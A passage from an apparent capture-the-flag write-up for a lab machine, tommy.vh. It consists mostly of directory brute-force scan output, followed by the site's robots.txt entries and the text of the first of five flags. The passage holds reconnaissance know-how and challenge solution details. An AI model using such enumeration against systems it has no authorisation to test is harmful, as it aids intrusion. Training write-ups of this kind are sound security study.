/INSTALL_admin        (Status: 301) [Size: 312] [--> http://tommy.vh/INSTALL_admin/] 
/interactive          (Status: 301) [Size: 310] [--> http://tommy.vh/interactive/]   
/internal             (Status: 301) [Size: 307] [--> http://tommy.vh/internal/]      
/international        (Status: 301) [Size: 312] [--> http://tommy.vh/international/] 
/internet             (Status: 301) [Size: 307] [--> http://tommy.vh/internet/]      
/interview            (Status: 301) [Size: 308] [--> http://tommy.vh/interview/]     
/interviews           (Status: 301) [Size: 309] [--> http://tommy.vh/interviews/]    
/intranet             (Status: 301) [Size: 307] [--> http://tommy.vh/intranet/]      
/it                   (Status: 301) [Size: 301] [--> http://tommy.vh/it/]            
/issues               (Status: 301) [Size: 305] [--> http://tommy.vh/issues/]        
/it_IT                (Status: 301) [Size: 304] [--> http://tommy.vh/it_IT/]         
/j                    (Status: 301) [Size: 300] [--> http://tommy.vh/j/]             
/ja                   (Status: 301) [Size: 301] [--> http://tommy.vh/ja/]            
/J                    (Status: 301) [Size: 300] [--> http://tommy.vh/J/]             
/ja_JP                (Status: 301) [Size: 304] [--> http://tommy.vh/ja_JP/]         
/java                 (Status: 301) [Size: 303] [--> http://tommy.vh/java/]          
/jessica              (Status: 301) [Size: 306] [--> http://tommy.vh/jessica/]       
/joe                  (Status: 301) [Size: 302] [--> http://tommy.vh/joe/]           
/job                  (Status: 301) [Size: 302] [--> http://tommy.vh/job/]           
/journal              (Status: 301) [Size: 306] [--> http://tommy.vh/journal/]       
/jp                   (Status: 301) [Size: 301] [--> http://tommy.vh/jp/]            
/jrun                 (Status: 301) [Size: 303] [--> http://tommy.vh/jrun/]          
/js                   (Status: 301) [Size: 301] [--> http://tommy.vh/js/]            
/jsFiles              (Status: 301) [Size: 306] [--> http://tommy.vh/jsFiles/]       
/jsp-examples         (Status: 301) [Size: 311] [--> http://tommy.vh/jsp-examples/]  
/jsp2                 (Status: 301) [Size: 303] [--> http://tommy.vh/jsp2/]          
/jump                 (Status: 301) [Size: 303] [--> http://tommy.vh/jump/]          
/jsps                 (Status: 301) [Size: 303] [--> http://tommy.vh/jsps/]          
/kept                 (Status: 301) [Size: 303] [--> http://tommy.vh/kept/]          
/key                  (Status: 301) [Size: 302] [--> http://tommy.vh/key/]           
/kernel               (Status: 301) [Size: 305] [--> http://tommy.vh/kernel/]        
/ko_KR                (Status: 301) [Size: 304] [--> http://tommy.vh/ko_KR/]         
/kontakt              (Status: 301) [Size: 306] [--> http://tommy.vh/kontakt/]       
/l                    (Status: 301) [Size: 300] [--> http://tommy.vh/l/]             
/labs                 (Status: 301) [Size: 303] [--> http://tommy.vh/labs/]          
/lab                  (Status: 301) [Size: 302] [--> http://tommy.vh/lab/]           
/lang                 (Status: 301) [Size: 303] [--> http://tommy.vh/lang/]          
/landwind             (Status: 301) [Size: 307] [--> http://tommy.vh/landwind/]      
/language             (Status: 301) [Size: 307] [--> http://tommy.vh/language/]      
/laptops              (Status: 301) [Size: 306] [--> http://tommy.vh/laptops/]       
/launch               (Status: 301) [Size: 305] [--> http://tommy.vh/launch/]        
/ldap                 (Status: 301) [Size: 303] [--> http://tommy.vh/ldap/]          
/legislation          (Status: 301) [Size: 310] [--> http://tommy.vh/legislation/]   
/lg                   (Status: 301) [Size: 301] [--> http://tommy.vh/lg/]            
/lib                  (Status: 301) [Size: 302] [--> http://tommy.vh/lib/]           
/library              (Status: 301) [Size: 306] [--> http://tommy.vh/library/]       
/letters              (Status: 301) [Size: 306] [--> http://tommy.vh/letters/]       
/line                 (Status: 301) [Size: 303] [--> http://tommy.vh/line/]          
/links                (Status: 301) [Size: 304] [--> http://tommy.vh/links/]         
/linux                (Status: 301) [Size: 304] [--> http://tommy.vh/linux/]         
Progress: 2332 / 4615 (50.53%)                                                  /lockout              (Status: 301) [Size: 306] [--> http://tommy.vh/lockout/]       
/logger               (Status: 301) [Size: 305] [--> http://tommy.vh/logger/]        
/login                (Status: 301) [Size: 304] [--> http://tommy.vh/login/]         
/logfiles             (Status: 301) [Size: 307] [--> http://tommy.vh/logfiles/]      
/logo                 (Status: 301) [Size: 303] [--> http://tommy.vh/logo/]          
/logout               (Status: 301) [Size: 305] [--> http://tommy.vh/logout/]        
/Logs                 (Status: 301) [Size: 303] [--> http://tommy.vh/Logs/]          
/love                 (Status: 301) [Size: 303] [--> http://tommy.vh/love/]          
/m1                   (Status: 301) [Size: 301] [--> http://tommy.vh/m1/]            
/M                    (Status: 301) [Size: 300] [--> http://tommy.vh/M/]             
/mac                  (Status: 301) [Size: 302] [--> http://tommy.vh/mac/]           
/magazine             (Status: 301) [Size: 307] [--> http://tommy.vh/magazine/]      
/mailman              (Status: 301) [Size: 306] [--> http://tommy.vh/mailman/]       
/main                 (Status: 301) [Size: 303] [--> http://tommy.vh/main/]          
/Main_Page            (Status: 301) [Size: 308] [--> http://tommy.vh/Main_Page/]     
/makefile             (Status: 301) [Size: 307] [--> http://tommy.vh/makefile/]      
/manage               (Status: 301) [Size: 305] [--> http://tommy.vh/manage/]        
/management           (Status: 301) [Size: 309] [--> http://tommy.vh/management/]    
/manager              (Status: 301) [Size: 306] [--> http://tommy.vh/manager/]       
/map                  (Status: 301) [Size: 302] [--> http://tommy.vh/map/]           
/market               (Status: 301) [Size: 305] [--> http://tommy.vh/market/]        
/marketplace          (Status: 301) [Size: 310] [--> http://tommy.vh/marketplace/]   
/master               (Status: 301) [Size: 305] [--> http://tommy.vh/master/]        
/masthead             (Status: 301) [Size: 307] [--> http://tommy.vh/masthead/]      
/mb                   (Status: 301) [Size: 301] [--> http://tommy.vh/mb/]            
/me                   (Status: 301) [Size: 301] [--> http://tommy.vh/me/]            
/mediakit             (Status: 301) [Size: 307] [--> http://tommy.vh/mediakit/]      
/Media                (Status: 301) [Size: 304] [--> http://tommy.vh/Media/]         
/meetings             (Status: 301) [Size: 307] [--> http://tommy.vh/meetings/]      
/Members              (Status: 301) [Size: 306] [--> http://tommy.vh/Members/]       
/membership           (Status: 301) [Size: 309] [--> http://tommy.vh/membership/]    
/menu                 (Status: 301) [Size: 303] [--> http://tommy.vh/menu/]          
/Menus                (Status: 301) [Size: 304] [--> http://tommy.vh/Menus/]         
/memory               (Status: 301) [Size: 305] [--> http://tommy.vh/memory/]        
/meta                 (Status: 301) [Size: 303] [--> http://tommy.vh/meta/]          
/metabase             (Status: 301) [Size: 307] [--> http://tommy.vh/metabase/]      
/mgr                  (Status: 301) [Size: 302] [--> http://tommy.vh/mgr/]           
/minimum              (Status: 301) [Size: 306] [--> http://tommy.vh/minimum/]       
/mini                 (Status: 301) [Size: 303] [--> http://tommy.vh/mini/]          
/miscellaneous        (Status: 301) [Size: 312] [--> http://tommy.vh/miscellaneous/] 
/mirrors              (Status: 301) [Size: 306] [--> http://tommy.vh/mirrors/]       
/moto-news            (Status: 301) [Size: 308] [--> http://tommy.vh/moto-news/]     
/moto1                (Status: 301) [Size: 304] [--> http://tommy.vh/moto1/]         
/movies               (Status: 301) [Size: 305] [--> http://tommy.vh/movies/]        
/mozilla              (Status: 301) [Size: 306] [--> http://tommy.vh/mozilla/]       
/mqseries             (Status: 301) [Size: 307] [--> http://tommy.vh/mqseries/]      
/mp3                  (Status: 301) [Size: 302] [--> http://tommy.vh/mp3/]           
/mp3s                 (Status: 301) [Size: 303] [--> http://tommy.vh/mp3s/]          
/ms                   (Status: 301) [Size: 301] [--> http://tommy.vh/ms/]            
/ms-sql               (Status: 301) [Size: 305] [--> http://tommy.vh/ms-sql/]        
/mssql                (Status: 301) [Size: 304] [--> http://tommy.vh/mssql/]         
/music                (Status: 301) [Size: 304] [--> http://tommy.vh/music/]         
/my                   (Status: 301) [Size: 301] [--> http://tommy.vh/my/]            
/n                    (Status: 301) [Size: 300] [--> http://tommy.vh/n/]             
/next                 (Status: 301) [Size: 303] [--> http://tommy.vh/next/]          
/nokia                (Status: 301) [Size: 304] [--> http://tommy.vh/nokia/]         
/none                 (Status: 301) [Size: 303] [--> http://tommy.vh/none/]          
/novell               (Status: 301) [Size: 305] [--> http://tommy.vh/novell/]        
/nul                  (Status: 301) [Size: 302] [--> http://tommy.vh/nul/]           
/offerdetail          (Status: 301) [Size: 310] [--> http://tommy.vh/offerdetail/]   
/office               (Status: 301) [Size: 305] [--> http://tommy.vh/office/]        
/oldie                (Status: 301) [Size: 304] [--> http://tommy.vh/oldie/]         
/old                  (Status: 301) [Size: 302] [--> http://tommy.vh/old/]           
/opinions             (Status: 301) [Size: 307] [--> http://tommy.vh/opinions/]      
/opml                 (Status: 301) [Size: 303] [--> http://tommy.vh/opml/]          
/oracle               (Status: 301) [Size: 305] [--> http://tommy.vh/oracle/]        
/original             (Status: 301) [Size: 307] [--> http://tommy.vh/original/]      
/os                   (Status: 301) [Size: 301] [--> http://tommy.vh/os/]            
/out                  (Status: 301) [Size: 302] [--> http://tommy.vh/out/]           
Progress: 2837 / 4615 (61.47%)                                                  /pad                  (Status: 301) [Size: 302] [--> http://tommy.vh/pad/]           
/pam                  (Status: 301) [Size: 302] [--> http://tommy.vh/pam/]           
/paper                (Status: 301) [Size: 304] [--> http://tommy.vh/paper/]         
/papers               (Status: 301) [Size: 305] [--> http://tommy.vh/papers/]        
/partner              (Status: 301) [Size: 306] [--> http://tommy.vh/partner/]       
/passw                (Status: 301) [Size: 304] [--> http://tommy.vh/passw/]         
/passwords            (Status: 301) [Size: 308] [--> http://tommy.vh/passwords/]     
/patches              (Status: 301) [Size: 306] [--> http://tommy.vh/patches/]       
/path                 (Status: 301) [Size: 303] [--> http://tommy.vh/path/]          
/PDF                  (Status: 301) [Size: 302] [--> http://tommy.vh/PDF/]           
/pda                  (Status: 301) [Size: 302] [--> http://tommy.vh/pda/]           
/pdf                  (Status: 301) [Size: 302] [--> http://tommy.vh/pdf/]           
/pdfs                 (Status: 301) [Size: 303] [--> http://tommy.vh/pdfs/]          
/perl                 (Status: 301) [Size: 303] [--> http://tommy.vh/perl/]          
/pgsql                (Status: 301) [Size: 304] [--> http://tommy.vh/pgsql/]         
/phishing             (Status: 301) [Size: 307] [--> http://tommy.vh/phishing/]      
/photo                (Status: 301) [Size: 304] [--> http://tommy.vh/photo/]         
/phpMyAdmin           (Status: 301) [Size: 309] [--> http://tommy.vh/phpMyAdmin/]    
/pictures             (Status: 301) [Size: 307] [--> http://tommy.vh/pictures/]      
/ping                 (Status: 301) [Size: 303] [--> http://tommy.vh/ping/]          
/pipermail            (Status: 301) [Size: 308] [--> http://tommy.vh/pipermail/]     
/pixel                (Status: 301) [Size: 304] [--> http://tommy.vh/pixel/]         
/please               (Status: 301) [Size: 305] [--> http://tommy.vh/please/]        
/plugins              (Status: 301) [Size: 306] [--> http://tommy.vh/plugins/]       
/plus                 (Status: 301) [Size: 303] [--> http://tommy.vh/plus/]          
/podcast              (Status: 301) [Size: 306] [--> http://tommy.vh/podcast/]       
/podcasting           (Status: 301) [Size: 309] [--> http://tommy.vh/podcasting/]    
/poker                (Status: 301) [Size: 304] [--> http://tommy.vh/poker/]         
/policies             (Status: 301) [Size: 307] [--> http://tommy.vh/policies/]      
/politics             (Status: 301) [Size: 307] [--> http://tommy.vh/politics/]      
/poll                 (Status: 301) [Size: 303] [--> http://tommy.vh/poll/]          
/popular              (Status: 301) [Size: 306] [--> http://tommy.vh/popular/]       
/portfolio            (Status: 301) [Size: 308] [--> http://tommy.vh/portfolio/]     
/portlets             (Status: 301) [Size: 307] [--> http://tommy.vh/portlets/]      
/ports                (Status: 301) [Size: 304] [--> http://tommy.vh/ports/]         
/post                 (Status: 301) [Size: 303] [--> http://tommy.vh/post/]          
/postgres             (Status: 301) [Size: 307] [--> http://tommy.vh/postgres/]      
/posting              (Status: 301) [Size: 306] [--> http://tommy.vh/posting/]       
/power                (Status: 301) [Size: 304] [--> http://tommy.vh/power/]         
/premiere             (Status: 301) [Size: 307] [--> http://tommy.vh/premiere/]      
/presentations        (Status: 301) [Size: 312] [--> http://tommy.vh/presentations/] 
/press                (Status: 301) [Size: 304] [--> http://tommy.vh/press/]         
/Press                (Status: 301) [Size: 304] [--> http://tommy.vh/Press/]         
/pressreleases        (Status: 301) [Size: 312] [--> http://tommy.vh/pressreleases/] 
/pressroom            (Status: 301) [Size: 308] [--> http://tommy.vh/pressroom/]     
/printenv             (Status: 301) [Size: 307] [--> http://tommy.vh/printenv/]      
/privacy              (Status: 301) [Size: 306] [--> http://tommy.vh/privacy/]       
/privacypolicy        (Status: 301) [Size: 312] [--> http://tommy.vh/privacypolicy/] 
/privacy-policy       (Status: 301) [Size: 313] [--> http://tommy.vh/privacy-policy/]
/private              (Status: 301) [Size: 306] [--> http://tommy.vh/private/]       
/privs                (Status: 301) [Size: 304] [--> http://tommy.vh/privs/]         
/prn                  (Status: 301) [Size: 302] [--> http://tommy.vh/prn/]           
/process              (Status: 301) [Size: 306] [--> http://tommy.vh/process/]       
/product              (Status: 301) [Size: 306] [--> http://tommy.vh/product/]       
/producers            (Status: 301) [Size: 308] [--> http://tommy.vh/producers/]     
/products             (Status: 301) [Size: 307] [--> http://tommy.vh/products/]      
/Products             (Status: 301) [Size: 307] [--> http://tommy.vh/Products/]      
/professor            (Status: 301) [Size: 308] [--> http://tommy.vh/professor/]     
/Projects             (Status: 301) [Size: 307] [--> http://tommy.vh/Projects/]      
/projects             (Status: 301) [Size: 307] [--> http://tommy.vh/projects/]      
/promo                (Status: 301) [Size: 304] [--> http://tommy.vh/promo/]         
/proof                (Status: 301) [Size: 304] [--> http://tommy.vh/proof/]         
/property             (Status: 301) [Size: 307] [--> http://tommy.vh/property/]      
/protect              (Status: 301) [Size: 306] [--> http://tommy.vh/protect/]       
/pruebas              (Status: 301) [Size: 306] [--> http://tommy.vh/pruebas/]       
/prueba               (Status: 301) [Size: 305] [--> http://tommy.vh/prueba/]        
/ps                   (Status: 301) [Size: 301] [--> http://tommy.vh/ps/]            
/publish              (Status: 301) [Size: 306] [--> http://tommy.vh/publish/]       
/publisher            (Status: 301) [Size: 308] [--> http://tommy.vh/publisher/]     
/purchase             (Status: 301) [Size: 307] [--> http://tommy.vh/purchase/]      
/put                  (Status: 301) [Size: 302] [--> http://tommy.vh/put/]           
/questions            (Status: 301) [Size: 308] [--> http://tommy.vh/questions/]     
/queue                (Status: 301) [Size: 304] [--> http://tommy.vh/queue/]         
/quote                (Status: 301) [Size: 304] [--> http://tommy.vh/quote/]         
/R                    (Status: 301) [Size: 300] [--> http://tommy.vh/R/]             
/radio                (Status: 301) [Size: 304] [--> http://tommy.vh/radio/]         
/ramon                (Status: 301) [Size: 304] [--> http://tommy.vh/ramon/]         
/RCS                  (Status: 301) [Size: 302] [--> http://tommy.vh/RCS/]           
/red                  (Status: 301) [Size: 302] [--> http://tommy.vh/red/]           
/reddit               (Status: 301) [Size: 305] [--> http://tommy.vh/reddit/]        
/redir                (Status: 301) [Size: 304] [--> http://tommy.vh/redir/]         
/reg                  (Status: 301) [Size: 302] [--> http://tommy.vh/reg/]           
/registered           (Status: 301) [Size: 309] [--> http://tommy.vh/registered/]    
/register             (Status: 301) [Size: 307] [--> http://tommy.vh/register/]      
/reklama              (Status: 301) [Size: 306] [--> http://tommy.vh/reklama/]       
/releases             (Status: 301) [Size: 307] [--> http://tommy.vh/releases/]      
/reporting            (Status: 301) [Size: 308] [--> http://tommy.vh/reporting/]     
/reports              (Status: 301) [Size: 306] [--> http://tommy.vh/reports/]       
/reprints             (Status: 301) [Size: 307] [--> http://tommy.vh/reprints/]      
/requisite            (Status: 301) [Size: 308] [--> http://tommy.vh/requisite/]     
/Research             (Status: 301) [Size: 307] [--> http://tommy.vh/Research/]      
/Resources            (Status: 301) [Size: 308] [--> http://tommy.vh/Resources/]     
/results              (Status: 301) [Size: 306] [--> http://tommy.vh/results/]       
/rfid                 (Status: 301) [Size: 303] [--> http://tommy.vh/rfid/]          
/reviews              (Status: 301) [Size: 306] [--> http://tommy.vh/reviews/]       
/robots.txt           (Status: 200) [Size: 132]                                      
/roles                (Status: 301) [Size: 304] [--> http://tommy.vh/roles/]         
/root                 (Status: 301) [Size: 303] [--> http://tommy.vh/root/]          
/rpc                  (Status: 301) [Size: 302] [--> http://tommy.vh/rpc/]           
/rss10                (Status: 301) [Size: 304] [--> http://tommy.vh/rss10/]         
/RSS                  (Status: 301) [Size: 302] [--> http://tommy.vh/RSS/]           
/S                    (Status: 301) [Size: 300] [--> http://tommy.vh/S/]             
/sam                  (Status: 301) [Size: 302] [--> http://tommy.vh/sam/]           
/save                 (Status: 301) [Size: 303] [--> http://tommy.vh/save/]          
/saved                (Status: 301) [Size: 304] [--> http://tommy.vh/saved/]         
/schema               (Status: 301) [Size: 305] [--> http://tommy.vh/schema/]        
/science              (Status: 301) [Size: 306] [--> http://tommy.vh/science/]       
/scratc               (Status: 301) [Size: 305] [--> http://tommy.vh/scratc/]        
/screenshot           (Status: 301) [Size: 309] [--> http://tommy.vh/screenshot/]    
/screen               (Status: 301) [Size: 305] [--> http://tommy.vh/screen/]        
/script               (Status: 301) [Size: 305] [--> http://tommy.vh/script/]        
/search               (Status: 301) [Size: 305] [--> http://tommy.vh/search/]        
Progress: 3544 / 4615 (76.79%)                                                  /secrets              (Status: 301) [Size: 306] [--> http://tommy.vh/secrets/]       
/sections             (Status: 301) [Size: 307] [--> http://tommy.vh/sections/]      
/secure               (Status: 301) [Size: 305] [--> http://tommy.vh/secure/]        
/security             (Status: 301) [Size: 307] [--> http://tommy.vh/security/]      
/seminars             (Status: 301) [Size: 307] [--> http://tommy.vh/seminars/]      
/sendmail             (Status: 301) [Size: 307] [--> http://tommy.vh/sendmail/]      
/sensor               (Status: 301) [Size: 305] [--> http://tommy.vh/sensor/]        
/server_stats         (Status: 301) [Size: 311] [--> http://tommy.vh/server_stats/]  
/server-status        (Status: 403) [Size: 296]                                      
/servers              (Status: 301) [Size: 306] [--> http://tommy.vh/servers/]       
/servicio             (Status: 301) [Size: 307] [--> http://tommy.vh/servicio/]      
/Servlet              (Status: 301) [Size: 306] [--> http://tommy.vh/Servlet/]       
/servlets-examples    (Status: 301) [Size: 316] [--> http://tommy.vh/servlets-examples/]
/setting              (Status: 301) [Size: 306] [--> http://tommy.vh/setting/]          
/sf                   (Status: 301) [Size: 301] [--> http://tommy.vh/sf/]               
/shared               (Status: 301) [Size: 305] [--> http://tommy.vh/shared/]           
/shell                (Status: 301) [Size: 304] [--> http://tommy.vh/shell/]            
/shit                 (Status: 301) [Size: 303] [--> http://tommy.vh/shit/]             
/shop                 (Status: 301) [Size: 303] [--> http://tommy.vh/shop/]             
/shows                (Status: 301) [Size: 304] [--> http://tommy.vh/shows/]            
/showthread           (Status: 301) [Size: 309] [--> http://tommy.vh/showthread/]       
/signature            (Status: 301) [Size: 308] [--> http://tommy.vh/signature/]        
/simple               (Status: 301) [Size: 305] [--> http://tommy.vh/simple/]           
/site                 (Status: 301) [Size: 303] [--> http://tommy.vh/site/]             
/site-map             (Status: 301) [Size: 307] [--> http://tommy.vh/site-map/]         
/Sites                (Status: 301) [Size: 304] [--> http://tommy.vh/Sites/]            
/slashdot             (Status: 301) [Size: 307] [--> http://tommy.vh/slashdot/]         
/smb                  (Status: 301) [Size: 302] [--> http://tommy.vh/smb/]              
/smile                (Status: 301) [Size: 304] [--> http://tommy.vh/smile/]            
/smilies              (Status: 301) [Size: 306] [--> http://tommy.vh/smilies/]          
/snoop                (Status: 301) [Size: 304] [--> http://tommy.vh/snoop/]            
/snp                  (Status: 301) [Size: 302] [--> http://tommy.vh/snp/]              
/soft                 (Status: 301) [Size: 303] [--> http://tommy.vh/soft/]             
/Software             (Status: 301) [Size: 307] [--> http://tommy.vh/Software/]         
/somebody             (Status: 301) [Size: 307] [--> http://tommy.vh/somebody/]         
/source               (Status: 301) [Size: 305] [--> http://tommy.vh/source/]           
/spanish              (Status: 301) [Size: 306] [--> http://tommy.vh/spanish/]          
/special_offers       (Status: 301) [Size: 313] [--> http://tommy.vh/special_offers/]   
/spider               (Status: 301) [Size: 305] [--> http://tommy.vh/spider/]           
/sport                (Status: 301) [Size: 304] [--> http://tommy.vh/sport/]            
/sports               (Status: 301) [Size: 305] [--> http://tommy.vh/sports/]           
/spyware              (Status: 301) [Size: 306] [--> http://tommy.vh/spyware/]          
/sql                  (Status: 301) [Size: 302] [--> http://tommy.vh/sql/]              
/ssh                  (Status: 301) [Size: 302] [--> http://tommy.vh/ssh/]              
/ssi                  (Status: 301) [Size: 302] [--> http://tommy.vh/ssi/]              
/st                   (Status: 301) [Size: 301] [--> http://tommy.vh/st/]               
/staff                (Status: 301) [Size: 304] [--> http://tommy.vh/staff/]            
/standard             (Status: 301) [Size: 307] [--> http://tommy.vh/standard/]         
/star                 (Status: 301) [Size: 303] [--> http://tommy.vh/star/]             
/stat                 (Status: 301) [Size: 303] [--> http://tommy.vh/stat/]             
Progress: 3847 / 4615 (83.36%)                                                  /Statistics           (Status: 301) [Size: 309] [--> http://tommy.vh/Statistics/]       
/statistics           (Status: 301) [Size: 309] [--> http://tommy.vh/statistics/]       
/stop                 (Status: 301) [Size: 303] [--> http://tommy.vh/stop/]             
/store                (Status: 301) [Size: 304] [--> http://tommy.vh/store/]            
/stores               (Status: 301) [Size: 305] [--> http://tommy.vh/stores/]           
/story                (Status: 301) [Size: 304] [--> http://tommy.vh/story/]            
/stories              (Status: 301) [Size: 306] [--> http://tommy.vh/stories/]          
/strategy             (Status: 301) [Size: 307] [--> http://tommy.vh/strategy/]         
/string               (Status: 301) [Size: 305] [--> http://tommy.vh/string/]           
/style                (Status: 301) [Size: 304] [--> http://tommy.vh/style/]            
/subject              (Status: 301) [Size: 306] [--> http://tommy.vh/subject/]          
/stylesheets          (Status: 301) [Size: 310] [--> http://tommy.vh/stylesheets/]      
/subscription         (Status: 301) [Size: 311] [--> http://tommy.vh/subscription/]     
/svr                  (Status: 301) [Size: 302] [--> http://tommy.vh/svr/]              
/syndication          (Status: 301) [Size: 310] [--> http://tommy.vh/syndication/]      
/sys                  (Status: 301) [Size: 302] [--> http://tommy.vh/sys/]              
/sysadmin             (Status: 301) [Size: 307] [--> http://tommy.vh/sysadmin/]         
/system               (Status: 301) [Size: 305] [--> http://tommy.vh/system/]           
/T                    (Status: 301) [Size: 300] [--> http://tommy.vh/T/]                
/table                (Status: 301) [Size: 304] [--> http://tommy.vh/table/]            
/talk                 (Status: 301) [Size: 303] [--> http://tommy.vh/talk/]             
/tape                 (Status: 301) [Size: 303] [--> http://tommy.vh/tape/]             
/tech                 (Status: 301) [Size: 303] [--> http://tommy.vh/tech/]             
/Technology           (Status: 301) [Size: 309] [--> http://tommy.vh/Technology/]       
/temp                 (Status: 301) [Size: 303] [--> http://tommy.vh/temp/]             
/template             (Status: 301) [Size: 307] [--> http://tommy.vh/template/]         
/term                 (Status: 301) [Size: 303] [--> http://tommy.vh/term/]             
/terms                (Status: 301) [Size: 304] [--> http://tommy.vh/terms/]            
/test                 (Status: 301) [Size: 303] [--> http://tommy.vh/test/]             
/terrorism            (Status: 301) [Size: 308] [--> http://tommy.vh/terrorism/]        
/tests                (Status: 301) [Size: 304] [--> http://tommy.vh/tests/]            
/text                 (Status: 301) [Size: 303] [--> http://tommy.vh/text/]             
/themes               (Status: 301) [Size: 305] [--> http://tommy.vh/themes/]           
/theme                (Status: 301) [Size: 304] [--> http://tommy.vh/theme/]            
/thumb                (Status: 301) [Size: 304] [--> http://tommy.vh/thumb/]            
/thumbs               (Status: 301) [Size: 305] [--> http://tommy.vh/thumbs/]           
/time                 (Status: 301) [Size: 303] [--> http://tommy.vh/time/]             
/title                (Status: 301) [Size: 304] [--> http://tommy.vh/title/]            
/tmp                  (Status: 301) [Size: 302] [--> http://tommy.vh/tmp/]              
/toc                  (Status: 301) [Size: 302] [--> http://tommy.vh/toc/]              
/tomcat               (Status: 301) [Size: 305] [--> http://tommy.vh/tomcat/]           
/tomcat-docs          (Status: 301) [Size: 310] [--> http://tommy.vh/tomcat-docs/]      
/todo                 (Status: 301) [Size: 303] [--> http://tommy.vh/todo/]             
/topic                (Status: 301) [Size: 304] [--> http://tommy.vh/topic/]            
/topics               (Status: 301) [Size: 305] [--> http://tommy.vh/topics/]           
/tour                 (Status: 301) [Size: 303] [--> http://tommy.vh/tour/]             
/tos                  (Status: 301) [Size: 302] [--> http://tommy.vh/tos/]              
/topsites             (Status: 301) [Size: 307] [--> http://tommy.vh/topsites/]         
/traceroute           (Status: 301) [Size: 309] [--> http://tommy.vh/traceroute/]       
/track                (Status: 301) [Size: 304] [--> http://tommy.vh/track/]            
/trademarks           (Status: 301) [Size: 309] [--> http://tommy.vh/trademarks/]       
/training             (Status: 301) [Size: 307] [--> http://tommy.vh/training/]         
/txt                  (Status: 301) [Size: 302] [--> http://tommy.vh/txt/]              
/uddi                 (Status: 301) [Size: 303] [--> http://tommy.vh/uddi/]             
/ui                   (Status: 301) [Size: 301] [--> http://tommy.vh/ui/]               
/upload               (Status: 301) [Size: 305] [--> http://tommy.vh/upload/]           
/uploads              (Status: 301) [Size: 306] [--> http://tommy.vh/uploads/]          
/url                  (Status: 301) [Size: 302] [--> http://tommy.vh/url/]              
/user                 (Status: 301) [Size: 303] [--> http://tommy.vh/user/]             
/usr                  (Status: 301) [Size: 302] [--> http://tommy.vh/usr/]              
/usuario              (Status: 301) [Size: 306] [--> http://tommy.vh/usuario/]          
/ustats               (Status: 301) [Size: 305] [--> http://tommy.vh/ustats/]           
/utils                (Status: 301) [Size: 304] [--> http://tommy.vh/utils/]            
/v                    (Status: 301) [Size: 300] [--> http://tommy.vh/v/]                
/validation           (Status: 301) [Size: 309] [--> http://tommy.vh/validation/]       
/vbscript             (Status: 301) [Size: 307] [--> http://tommy.vh/vbscript/]         
/ver                  (Status: 301) [Size: 302] [--> http://tommy.vh/ver/]              
/vfs                  (Status: 301) [Size: 302] [--> http://tommy.vh/vfs/]              
/version              (Status: 301) [Size: 306] [--> http://tommy.vh/version/]          
/viewforum            (Status: 301) [Size: 308] [--> http://tommy.vh/viewforum/]        
/virus                (Status: 301) [Size: 304] [--> http://tommy.vh/virus/]            
/volunteer            (Status: 301) [Size: 308] [--> http://tommy.vh/volunteer/]        
/W3SVC1               (Status: 301) [Size: 305] [--> http://tommy.vh/W3SVC1/]           
/W                    (Status: 301) [Size: 300] [--> http://tommy.vh/W/]                
/w3                   (Status: 301) [Size: 301] [--> http://tommy.vh/w3/]               
/W3SVC2               (Status: 301) [Size: 305] [--> http://tommy.vh/W3SVC2/]           
/web                  (Status: 301) [Size: 302] [--> http://tommy.vh/web/]              
/webadmin             (Status: 301) [Size: 307] [--> http://tommy.vh/webadmin/]         
/Stats                (Status: 301) [Size: 304] [--> http://tommy.vh/Stats/]            
/wdav                 (Status: 301) [Size: 303] [--> http://tommy.vh/wdav/]             
/webboard             (Status: 301) [Size: 307] [--> http://tommy.vh/webboard/]         
/webcart              (Status: 301) [Size: 306] [--> http://tommy.vh/webcart/]          
/webcast              (Status: 301) [Size: 306] [--> http://tommy.vh/webcast/]          
/webcgi               (Status: 301) [Size: 305] [--> http://tommy.vh/webcgi/]           
/webdata              (Status: 301) [Size: 306] [--> http://tommy.vh/webdata/]          
/webdist              (Status: 301) [Size: 306] [--> http://tommy.vh/webdist/]          
/webhits              (Status: 301) [Size: 306] [--> http://tommy.vh/webhits/]          
/WEB-INF              (Status: 301) [Size: 306] [--> http://tommy.vh/WEB-INF/]          
/webmail              (Status: 301) [Size: 306] [--> http://tommy.vh/webmail/]          
/webvpn               (Status: 301) [Size: 305] [--> http://tommy.vh/webvpn/]           
/welcome              (Status: 301) [Size: 306] [--> http://tommy.vh/welcome/]          
/wellcome             (Status: 301) [Size: 307] [--> http://tommy.vh/wellcome/]         
/whatnot              (Status: 301) [Size: 306] [--> http://tommy.vh/whatnot/]          
/whois                (Status: 301) [Size: 304] [--> http://tommy.vh/whois/]            
/why                  (Status: 301) [Size: 302] [--> http://tommy.vh/why/]              
/wholesale            (Status: 301) [Size: 308] [--> http://tommy.vh/wholesale/]        
/wifi                 (Status: 301) [Size: 303] [--> http://tommy.vh/wifi/]             
/wii                  (Status: 301) [Size: 302] [--> http://tommy.vh/wii/]              
/wiki                 (Status: 301) [Size: 303] [--> http://tommy.vh/wiki/]             
/will                 (Status: 301) [Size: 303] [--> http://tommy.vh/will/]             
/wink                 (Status: 301) [Size: 303] [--> http://tommy.vh/wink/]             
/Windows              (Status: 301) [Size: 306] [--> http://tommy.vh/Windows/]          
/work                 (Status: 301) [Size: 303] [--> http://tommy.vh/work/]             
/wp-content           (Status: 301) [Size: 309] [--> http://tommy.vh/wp-content/]       
/wp-includes          (Status: 301) [Size: 310] [--> http://tommy.vh/wp-includes/]      
/wp-rss2              (Status: 301) [Size: 306] [--> http://tommy.vh/wp-rss2/]          
/x                    (Status: 301) [Size: 300] [--> http://tommy.vh/x/]                
/X                    (Status: 301) [Size: 300] [--> http://tommy.vh/X/]                
/wwwboard             (Status: 301) [Size: 307] [--> http://tommy.vh/wwwboard/]         
/wwwlog               (Status: 301) [Size: 305] [--> http://tommy.vh/wwwlog/]           
/xbox                 (Status: 301) [Size: 303] [--> http://tommy.vh/xbox/]             
/xcache               (Status: 301) [Size: 305] [--> http://tommy.vh/xcache/]           
/zh_TW                (Status: 301) [Size: 304] [--> http://tommy.vh/zh_TW/]            
/zips                 (Status: 301) [Size: 303] [--> http://tommy.vh/zips/]             
         
===============================================================
2022/03/29 03:11:28 Finished
===============================================================
```

Browsing robots.txt gives us some clues:<br><br>

```
User-agent: *
Disallow: /6packsofb...soda
Disallow: /lukeiamyourfather
Disallow: /lookalivelowbridge
Disallow: /flag-numero-uno.txt
```

**"/flag-numero-uno.txt"**<br><br>

"This is the first of five flags in the Callhan Auto server.  You'll need them all to unlock
the final treasure and fully consider the VM pwned!
